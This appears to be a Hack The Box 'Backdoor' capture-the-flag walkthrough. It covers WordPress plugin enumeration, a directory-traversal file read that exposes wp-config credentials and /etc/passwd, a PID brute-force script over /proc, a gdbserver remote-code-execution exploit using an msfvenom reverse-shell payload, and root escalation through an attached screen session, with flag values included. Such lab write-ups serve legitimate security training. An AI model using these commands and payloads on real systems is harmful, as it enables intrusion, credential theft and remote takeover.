







## INITIAL ENUMERATION

```shell
nmap -sV -sC 10.129.96.68 -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-03 16:15 CET
Stats: 0:02:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 16:17 (0:00:00 remaining)
Nmap scan report for backdoor.htb (10.129.96.68)
Host is up (0.075s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 164.83 seconds
```


## WEB 80

The site is for an art muesum but is mostly just a default HTML template:


The “About” and “Contact” links lead to other static pages with default template text. The “Blog” link as well, and there’s one post by admin. The “Home” link points to `backdoor.htb`, so I’ll add that to `/etc/hosts` and scan for sub domains with `wfuzz`, but not find any.

#### Tech Stack

The bottom of the page does say “Proudly powered by WordPress”. There’s not much interesting to report from the headers or looking at any source.

WordPress is written in PHP, though trying `index.php` actually leads to redirects. This makes sense, as WordPress does manage URL routes differently than a static site with PHP pages.

#### wpscan

I’ll run `wpscan` on the host. The scan I typically run finished in about a minute, and doesn’t find much:

```shell
wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|              

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://backdoor.htb/ [10.10.11.125]
...[snip]...
```

XMLRPC is enabled, which I go into detail on in [Pressed](https://0xdf.gitlab.io/2022/02/03/htb-pressed.html#background):

```
...[snip]...
[+] XML-RPC seems to be enabled: http://backdoor.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
...[snip]... 
```

That’s worth keeping in mind if I want to try to brute force creds for an account or have access to an account without GUI access.

There’s several CVEs in the WordPress code that are called out. A bunch aren’t interesting (expired root cert, prototype pollution, even stored XSS (at least not at this point)). There’s two SQL injections (CVE-2022-21661 and CVE-2022-21664), but I couldn’t find good detail on either.

It doesn’t find any plugins:

```
...[snip]...
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
...[snip]...
```

And nothing else is interesting.

It’s worth starting in the background a more aggressive scan to try to brute force plugins, which I’ll do with `--plugins-detection aggressive`. This takes half an hour to complete, but finds two plug-ins::

```shell
wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API
...[snip]...
[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:31:27 <============================================================================================================================================================================================> (97783 / 97783) 100.00% Time: 00:31:27
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:                                          

[+] akismet
 | Location: http://backdoor.htb/wp-content/plugins/akismet/
 | Latest Version: 4.2.2
 | Last Updated: 2022-01-24T16:11:00.000Z
 |                       
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/akismet/, status: 403
 |                      
 | [!] 1 vulnerability identified:
 |                      
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5     
 |     References:        
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.
[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
...[snip]...
```

The directory traversal in Ebook Download is particularly interesting.

#### Alternative Plugins Brute

If I didn’t want to use `wpscan` to enumerate WordPress plugins, I could also try a wordlist like [this one](https://raw.githubusercontent.com/Perfectdotexe/WordPress-Plugins-List/master/plugins.txt) with `feroxbuster`:

```shell
feroxbuster -u http://backdoor.htb/wp-content/plugins -w plugins.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.5.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://backdoor.htb/wp-content/plugins
 🚀  Threads               │ 50
 📖  Wordlist              │ plugins.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.5.0
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      277c http://backdoor.htb/wp-content/plugins/akismet
301      GET        9l       28w      340c http://backdoor.htb/wp-content/plugins/ebook-download => http://backdoor.htb/wp-content/plugins/ebook-download/
[####################] - 3m    160172/160172  0s      found:2       errors:1      
[####################] - 2m     80086/80086   508/s   http://backdoor.htb/wp-content/plugins 
[####################] - 2m     80086/80086   516/s   http://backdoor.htb/wp-content/plugi
```

It finds the same two plugins, which I could then research and find exploits for.

#### Alternative Plugins Discovery

After finding the plugins as described above, someone pointed out to me that the `/wp-content/plugins/` directory on Backdoor has directory listing enabled. That is not the default case, and WordPress typically puts an empty `index.php` in this directory to prevent just this kind of data leak. But it is the case here, which means that no brute force is necessary:



This is plenty to identify the Ebook Download plugin, and clicking on the folder shows the contents including the `readme.txt` with the version as well as the rest of the plugin files.

### Local File Read

#### Background

The links from `wpscan` don’t give a POC, but a quick Google search for Ebooks-Download directory traversal finds [this exploit-db](https://www.exploit-db.com/exploits/39575) post. It shows that the version can be disclosed with `http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt` (which is what’s referenced in the `wpscan` results), and that the POC is to visit `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`.

Just looking at the POC, it looks like the `ebookdownloadurl` accepts a local path which probably wasn’t what the author intended.

#### POC

I’ll manually check the version just to verify:

```shell
curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
=== Plugin Name ===                               
Contributors: zedna                                                 
Donate link: https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=3ZVGZTC7ZPCH2&lc=CZ&item_name=Zedna%20Brickick%20Website&currency_code=USD&bn=PP%2dDonationsBF%3abtn_donateCC_LG%2egif%3aNonHosted
Tags: ebook, file, download                                         
Requires at least: 3.0.4         
Tested up to: 4.4                             
Stable tag: 1.1 
...[snip]...
```

The “Stable tag” of 1.1 shows a vulnerable version.

I’m able to read the `wp-config.php` file just like the POC suggests, including the database connection information:

```shell
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
...[snip]...
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...[snip]...
```

I can try to log into WordPress at`http://backdoor.htb/wp-login.php` with the username admin and wordpressuser, but neither work.

#### Filesystem Enumeration

The challenge with directory traversal / file read vulns is that you typically can’t list directories, only access files I know to exist.

`/etc/passwd` will provide a list of users:

```shell 
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
../../../../../../../etc/passwd../../../../../../../etc/passwd../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...[snip]...
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
<script>window.close()</script>
```

I can try the DB password with user and root over SSH, but it doesn’t work.

Apache configs is something I can try to grab. `/etc/apache2/sites-enabled/000-default.conf` doesn’t returns anything, but `backdoor.htb.conf` does (comments removed):

```
<VirtualHost *:80>

        ServerName backdoor.htb
        ServerAlias *
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html


        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

<script>window.close()</script>
```

Still, nothing interesting.


## PORT 1337

Coming back to the port 1337 which was found to be open by the Nmap scan, we notice that attempts to access it with `telnet` and `netcat` are unsuccessful. 

Since we have LFI and so we can read the files on the remote server there is one possible way to potentially find some useful information about the service on port 1337. 

This can be done by brute forcing the `/proc/{PID}/cmdline` file. Let's first take a quick overview at what the `/proc/{PID}/cmdline` file is all about.

### What is /proc/{PID}/cmdline file ?

In linux, the file `/proc/{PID}/cmdline` (PID = Process ID) shows the command used to run the process with the corresponding PID. 

```
/proc/[PID]/cmdline 
where PID == process ID
```


For example, as shown in the below screenshot : 

```text
Run a netcat process to listen on port 1111. 
Background this process by pressing Ctrl + Z 
Check the PID of this process by using the ps command. 
We can check the contents of the /proc/{PID}/cmdline file to view the command used for running the netcat process. 
```



==Note: The commands that are shown from this file do not include the spaces between the arguments==. 

There must exist a `/proc/{PID}/cmdline` file for the process running on port 1337 and thus, it might be a good idea to try brute-forcing the` /proc/{PID}/cmdline` file, PID being the brute-force parameter. 
This will give us the command which was used to start the process. 

Let's first send a request for accessing the `/proc/1/cmdline` file to verify if the server response is as expected :




### Brute Forcing PID

I can make a quick Bash script from this to loop over a range of pids and try to find processes:

```c
#!/bin/bash

for i in $(seq 1 1000); do
    path="/proc/${i}/cmdline"
    res=$(curl -s "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}" | tr '\000' ' ')
    output=$(echo "$res" | sed 's/<script>window.close()<\/script>//g' | sed "s|$path||g")
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi
done

```

The script clears the first 1000 processes in a minute or so, which is enough to spot PID 979:

```c
./brute_processes.sh 
1: /sbin/init auto automatic-ubiquity noprompt 
485: /lib/systemd/systemd-journald 
512: /lib/systemd/systemd-udevd 
520: /lib/systemd/systemd-networkd 
658: /sbin/multipathd -d -s 
659: /sbin/multipathd -d -s 
660: /sbin/multipathd -d -s 
661: /sbin/multipathd -d -s 
662: /sbin/multipathd -d -s 
663: /sbin/multipathd -d -s 
664: /sbin/multipathd -d -s 
680: /lib/systemd/systemd-timesyncd 
700: /usr/bin/VGAuthService 
708: /usr/bin/vmtoolsd 
712: /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0 
716: /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0 
717: /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0 
718: /sbin/dhclient -1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0 
726: /usr/lib/accountsservice/accounts-daemon 
727: /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
730: /usr/lib/accountsservice/accounts-daemon 
732: /usr/sbin/irqbalance --foreground 
735: /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers 
736: /usr/sbin/rsyslogd -n -iNONE 
737: /usr/sbin/irqbalance --foreground 
738: /usr/bin/vmtoolsd 
739: /usr/bin/vmtoolsd 
740: /lib/systemd/systemd-logind 
762: /usr/sbin/rsyslogd -n -iNONE 
763: /usr/sbin/rsyslogd -n -iNONE 
764: /usr/sbin/rsyslogd -n -iNONE 
768: /usr/bin/vmtoolsd 
789: /usr/lib/accountsservice/accounts-daemon 
820: /usr/lib/policykit-1/polkitd --no-debug 
823: /usr/lib/policykit-1/polkitd --no-debug 
825: /usr/lib/policykit-1/polkitd --no-debug 
864: /lib/systemd/systemd-timesyncd 
884: /lib/systemd/systemd-resolved 
946: /usr/sbin/cron -f 
952: /usr/sbin/atd -f 
953: /usr/sbin/CRON -f 
954: /usr/sbin/CRON -f 
972: /sbin/agetty -o -p -- \u --noclear tty1 linux 
977: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
979: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
985: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups 
987: /lib/systemd/systemd --user 
988: (sd-pam) 
992: /usr/sbin/apache2 -k start 
1005: /usr/sbin/mysqld 

```


#### WHAT IS GDU?

GDB stands for GNU Project Debugger and is a debugging tool which helps you poke around inside your programs while they are executing and also allows you to see what exactly happens when your program crashes

#### WHAT IS `GDBSERVER`

`gdbserver` is a program that allows you to run GDB on a different machine than the one that is running the program being debugged
### RCE on gdbserver

Googling for any exploits available for gdbserver we find [this](https://www.exploit-db.com/exploits/50539) Remote Code Execution vulnerability in gdbserver version 9.2. We are uncertain about the version of gdbserver running on the server, but let’s just give this exploit a try. Going as per the exploit, first generate the shellcode using msfvenom

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 PrependFork=true -o rev.bin
```

Then, initiate a Netcat listener on port 4444 (as specified in the LPORT variable of msfvenom).

```shell
nc -nvlp 4444
```

And finally, run the exploit with the appropriate parameters.

```shell
python3 gdb_rce.py 10.10.11.125:1337 rev.bin
```

The exploit was successful and a reverse shell as user was received.



## USER FLAG

```shell
user@Backdoor:/home/user$ cat user.txt 
2aa8ed1bda92d5e7fb8bbb1deca34c04
```


## ROOT FLAG

Looking through the processes earlier, another one jumps out. From a shell, it’s easier to see:

```shell
user@Backdoor:/home/user$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...[snip]...
root         853  0.0  0.0   2608  1828 ?        Ss   16:43   0:05 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
...[snip]...
```


### SCREEN

`screen` is a terminal multiplexer similar to `tmux` . 
It can be used to start a session and then open any number of windows (virtual terminals) inside that session. Processes running in Screen will continue to run even when their window is not visible and even if you get disconnected. 

When the session is detached, the process that was originally started from the screen is still running and managed by the screen itself. The process can then re-attach the session at a later time, and the terminals are still there, the way they were left.



Looking at the manual page for screen we can see that the command screen -dmS root means that a screen session is started in detached mode and this session is named` “root”`.

When we create a new screen session, a new directory is created at the location /var/run/screen , with the name S-{username} (username being the username of the user that created it). Inside this directory a screen session file is created with the name of the screen-session.

### FIND

the man page for the find utility :



Here, the `find` command locates the specified location i.e. `/var/run/screen/S-root` and checks if it is empty. 
The `-empty` flag is used to check if the directory is empty. 

If the directory is found to be empty, it executes the command which follows after the` -exec` flag, i.e. `screen -dmS root` . 
This command creates a detached screen session with the name `“root”`.  

In a nutshell, this command creates a new screen-session as the `root` user with the session name `root` , if it is not already present.   

If we navigate to the `/var/run/screen` directory on the remote server, we can see the screen directories for both users, `user & root` , but we do not have the persmission to view the directory listing of the Sroot directory



After analyzing the screen-command, it is highly likely that there exists a screen-session, which was launched by the root user with session name "root". 

The default screen syntax for attaching to a screen-session created for a different user is `screen -x user/session_name` .   

Furthermore, to be able to attach to a screen session, the `TERM` environment variable needs to be set, as it defines the terminal type. In other words, it sets the terminal type for which output is to be prepared. We will set it to the value `xterm` :

```shell
user@Backdoor:/home/user$ export TERM=xterm
```

Finally let's try to attach to the root screen session.

```shell
screen -x root/root
```

```shell
root@Backdoor:~# id                                                             
uid=0(root) gid=0(root) groups=0(root) 
```

I can read `root.txt`:

```shell
root@Backdoor:~# cat root.txt                                                   
29956cd5ce61642f3878c35101c9d803
```

